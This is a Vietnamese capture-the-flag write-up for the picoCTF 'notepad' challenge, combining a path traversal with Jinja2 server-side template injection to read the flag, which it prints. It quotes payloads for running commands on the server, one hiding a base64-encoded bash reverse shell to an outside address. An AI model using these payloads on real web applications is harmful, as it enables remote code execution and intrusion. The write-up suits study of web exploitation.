 # Overview #
- Points : 100
- Tags : `Web Exploitation`.
# Description #
This note-taking site seems a bit off.  https://notepad.mars.picoctf.net/

src: https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/notepad/notepad.tar
# Observe #
![image](https://github.com/Aowpu/CTF/assets/130723782/3a2a539d-fb32-400d-bae1-0a81b6b60bc5)
- Mã trên tạo một ứng dụng Flask cho phép bạn nhập nội dung và tạo ra các trang web tĩnh.
Nó kiểm tra nội dung đã nhập và sau đó tạo một tệp HTML tương ứng để hiển thị nội dung. 

![image](https://github.com/Aowpu/CTF/assets/130723782/65f6f399-7e9d-4921-9916-f6a246f869b7)
- Tệp index.html cho thấy thấy rằng nó sẽ hiện ra lỗi nếu có nên tôi đã thử cho error là 1 thứ gì đó bất kì
![image](https://github.com/Aowpu/CTF/assets/130723782/ab45f4b9-aee2-460f-aa8e-1e05ef4cced5)
![image](https://github.com/Aowpu/CTF/assets/130723782/5fea4dff-f48f-4915-821a-a6d5551bc0d7)
- Trong đoạn code trên có thể thấy nó đã tạo tệp name, tên của tệp là 128 kí tự đầu tiên của nội dung và mã thông báo ngẫu nhiên
- Có một điều rằng chúng ta có thể dựa trên url_fix(content[:128]) cho thấy khi tìm kiếm thì url_fix sẽ biến \ thành / mà ở trong
điều kiện không hề cấm điều này. Chúng ta có thể sử dụng điều này để duyệt qua hệ thống tập tin.
# Attack #
- Mình đã nghĩ đến lỗ hổng SSTI vì kiểm tra dữ liệu đầu vào ở đây không nghiêm ngặt
- Chúng ta có thể tạo mẫu lỗi của riêng mình bằng cách sử dụng kỹ thuật truyền tải đường dẫn để tạo một tệp trong thư templates/errors
  ![image](https://github.com/Aowpu/CTF/assets/130723782/079c3739-77c7-404a-93f5-052175a0da00)
- Sau khi gửi nó đã hiện ra not found bởi vì chúng ta đã ghi vào một tệp bên ngoài thư mục tĩnh nên không thể truy cập bằng /static/...
- Tuy nhiên, chúng ta có thể kiểm tra payload bằng cách chuyển tên tệp vào phần error
  ![image](https://github.com/Aowpu/CTF/assets/130723782/2754cf1e-4b42-4938-9797-780ad7e1056c)
- Payload đã được in lại
- Chúng ta có thể sử dụng SSTI(Sever-side template injection) để truy xuất cờ.
- Tôi đã tìm thấy bài viết trong hacktricks về cách khai thác lỗ hổng SSTI này ở bài Jinja2 SSTI và câu lệnh dùng để injection vào hệ thống
- "{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}"
- Sau khi đọc dòng lệnh trên tôi đã thay đổi 1 số chỗ để phù hợp với bài này, đoạn mã hóa base 64 ở câu lệnh trên tôi sẽ đổi nó bởi vì theo Dockerfile được cung cấp cho thấy tệp chứa cờ nằm trong thư mục gốc của UUID ngẫu nhiên.
Vì vậy chùng ta cần tìm tên file của lá cờ
- Chúng ta sẽ sửa đoạn base 64 thành "ls /app" sau đó mã hóa b64 bởi vì thứ chúng ta muốn echo bây giờ là file của lá cờ trong thư mục app
- Đoạn mã sẽ injection vào là
  " {% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n bHMgL2FwcA== | base64 -d | bash")["read"]() %} {{a}} {% endwith %} "
-  Vì tên tệp nó sẽ lấy 128 kí tự đầu do dùng câu lệnh url_fix(content[:128]) nên chúng ta sẽ chèn sao cho đủ 128 kí tự ở đầu cho đầy để không phần nào của injection được lưu vào tên của file
-  Sau khi gửi câu lệnh
-  ![image](https://github.com/Aowpu/CTF/assets/130723782/0fdd859f-12cc-41d9-b981-6eeaecfadcf7)
- Nó đã trả về tên tệp trên thanh tìm kiếm
- Thực hiện các bước chèn tên tệp vào sau error chúng ta đã tìm file chứa flag
     ![image](https://github.com/Aowpu/CTF/assets/130723782/af0cb711-02ec-47e7-a3ea-5cf0041a28b7)
- Sau đó chúng ta cat file đó ra bằng cách lại thay đoạn mã hóa base 64 trong câu lệnh injection trên bằng câu lệnh "cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt"
  và rồi thực hiện lại các bước trên để hiện ra flag
![image](https://github.com/Aowpu/CTF/assets/130723782/a7f7176d-a611-40da-ba31-2d1dcb7fbf91)
# Flag: picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n} #
